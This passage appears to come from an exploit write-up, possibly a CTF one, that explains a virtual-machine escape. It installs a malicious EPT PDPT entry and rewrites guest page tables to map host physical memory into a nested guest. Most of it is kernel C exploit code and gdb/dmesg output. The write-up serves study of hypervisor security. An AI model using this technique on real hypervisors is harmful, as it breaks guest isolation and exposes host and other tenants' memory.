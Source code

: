 To insert the malicous EPT entry we wrote `0x987` into an entry in the EPT PDPT which means -- map 1GB of host physical memory starting from physical address zero to the guest physical address associated with this entry.
- The 0x9 nibble maps to the 'accessed' and 'ignored' bits (oops lol these don't matter)
- The 0x8 nibble maps to the page size bit that indicates this is 1GB mapping
- The 0x7 nibble maps to the read, write, and 'mode-based execute' (whether ring 0 in the guest can fetch instructions from this memory) bits

Peep the Intel SDM Vol. 3C Section 29.3.2 if you want specifics on the layouts of these entries.

Here is walking the EPT PML4 and installing the malicous PDPT entry in C:
```c
    // read first entry in ept to get the PML4E
    pml4e_value = read_guy(ept_offset);
    pr_info("[exp]: pml4e_value: %llx\n", pml4e_value);

    pml4e_addr = physbase + (pml4e_value & ~0xfffull);
    pr_info("[exp]: pml4e_addr: %llx\n", pml4e_addr);

    pml4e_offset = (pml4e_addr-l2_vmcs_addr) / 8;
    pr_info("[exp]: pml4e_offset: %llx\n", pml4e_offset);

    // at 6GB will be an identity mapping of the l1 memory in l2
    write_guy(pml4e_offset + 6, 0x987);
```

Then we were able to just mess with the guest's page tables a bit and create a 1GB mapping that points to the guest physical address assocated with the malicious EPT  PDPT entry we installed.
The entry was installed at the 6th entry in the EPT PDPT which associates it with the physical address `6<<30` (6GB), so we made a PDPT in the guest's page tables point to that address:

```c
    cr3 = read_cr3();
    pgd = (cr3 & ~0xfffull) + page_offset_base;
    pr_info("[exp]: pgd: %llx\n", pgd);

    pgde_page = kzalloc(0x1000, GFP_KERNEL);
    pgde_page_pa = virt_to_phys(pgde_page);

    pgd[272] = pgde_page_pa | 0x7;

    // huge and rwxp
    l2_entry = 0x180000000 | (1<<7) | 0x3;

    pgde_page[0] = l2_entry;

    // in THEORY I can access memory at 0xffff880000000000 now
    pr_info("TEST: %llx\n", *((uint64_t *)0xffff880000000000));
```

This entry makes it so that at virtual address `0xffff880000000000` is a 1GB mapping of the host's physical memory in our guest.

I was able to validate this by using gdb to compare the value the `pr_info` output to dmesg with the actual value at physical address zero:
```
gef> xp/gx 0
0x0000000000000000:    0xf000ff53f000ff53                       |  S...S...
```
```
[   99.596421] [exp]: pgd: ffff947a42a96000
[   99.597523] clocksource: Long readout interval, skipping watchdog check: cs_nsec: 9953621305 wd_nsec: 1
[   99.597611] TEST: f000ff53f000ff53
```
